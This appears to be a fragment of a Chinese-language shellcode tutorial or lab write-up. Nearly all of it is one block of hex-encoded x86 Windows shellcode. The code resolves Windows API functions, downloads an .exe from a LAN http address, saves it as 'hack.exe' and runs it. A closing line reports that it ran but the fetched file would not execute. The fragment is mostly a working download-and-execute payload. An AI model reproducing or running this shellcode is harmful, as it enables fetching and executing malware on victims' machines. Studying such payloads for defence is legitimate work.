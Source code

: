   + 代码如下

    ```shell
    \x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41\x8b\x04\x82\x03\x45\xfc\xc3\x31\xc0\x66\xb8\x73\x73\x50\x68\x64\x64\x72\x65\x68\x72\x6f\x63\x41\x68\x47\x65\x74\x50\x89\x65\x18\xe8\xb0\xff\xff\xff\x89\x45\xe4\x31\xd2\x52\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\xff\x75\xfc\x8b\x45\xe4\xff\xd0\x89\x45\xe0\x31\xc0\x66\xb8\x6f\x6e\x50\x68\x75\x72\x6c\x6d\x54\x8b\x5d\xe0\xff\xd3\x89\x45\xdc\x31\xd2\x66\xba\x65\x41\x52\x68\x6f\x46\x69\x6c\x68\x6f\x61\x64\x54\x68\x6f\x77\x6e\x6c\x68\x55\x52\x4c\x44\x54\xff\x75\xdc\x8b\x45\xe4\xff\xd0\x89\x45\xd8\x58\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x73\x65\x64\x74\x68\x2f\x67\x6f\x6f\x68\x36\x2e\x31\x33\x68\x36\x38\x2e\x35\x68\x39\x32\x2e\x31\x68\x3a\x2f\x2f\x31\x68\x68\x74\x74\x70\x54\x59\x31\xdb\x53\x68\x2e\x65\x78\x65\x68\x68\x61\x63\x6b\x54\x5b\x31\xd2\x52\x52\x53\x51\x52\x8b\x45\xd8\xff\xd0\x59\x83\xc4\x2c\x31\xd2\x39\xd0\x51\x75\xac\x5a\xba\x78\x78\x65\x63\xc1\xea\x08\x52\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xe8\xfe\xff\xff\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x68\x61\x63\x6b\x89\xe3\x41\x51\x53\xff\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\xb7\xfe\xff\xff\x31\xd2\x52\xff\xd0
    ```

  + 代码执行成功以后，出现如下结果，由于下载的文件并不是能立马执行的exe，无法正常执行，这可以理解

    ![](./image/su.png)
